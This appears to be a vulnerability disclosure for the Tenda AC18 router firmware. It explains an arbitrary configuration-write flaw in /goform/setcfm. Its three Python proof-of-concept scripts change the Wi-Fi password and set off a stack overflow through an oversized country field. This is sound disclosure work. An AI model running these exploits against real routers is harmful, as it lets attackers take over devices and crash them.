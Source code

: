 ## Overview

- The device's official website: https://www.tenda.com.cn/product/A18.html
- Firmware download website: https://www.tenda.com.cn/material/show/2683

## Affected version

V15.03.05.19(6318)

## Vulnerability details

The Tenda AC18 firmware has an arbitrary write vulnerability in configuration items in the `/goform/setcfm` url. The `v16` variable receives the `name%d` parameter from a POST request and the `v17` variable receives the `value%d` parameter from a POST request.``SetValue(v16,v17)`will store v16 as the name of the configuration item and v17 as the value of the configuration item.So This code allows you to manipulate the values of `any` configuration items.

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20250926144057813.png)

We can do many things through this vulnerability, such as changing the ``Wi-Fi password`, performing ` stack-overflow`attacks, and so on.

## PoC

### Chang the Wi-Fi password

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20250926_153918.png)

```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/setcfm"
payload = "newPassword"

data = {"save": 1,"name0": "wl2g.ssid0.wpapsk_psk","value0":payload}
response = requests.post(url, data=data)
print(response.text)
```

### Stack-overflow attacks

SetValue

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20250926_154048.png)

```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/setcfm"
payload = "a"*1000

data = {"save": 1,"name0": "wl2g.public.country","value0":payload}
response = requests.post(url, data=data)
print(response.text)
```

Trigger attack

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20250926_154308.png)

```py
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/fast_setting_get"

response = requests.post(url)
print(response.text)
```

The `s1` variable copies the value of the configuration item `wl2g.public.country` onto the stack, which can cause a stack overflow.

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20250926_150537.png)

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20250926141817071.png)
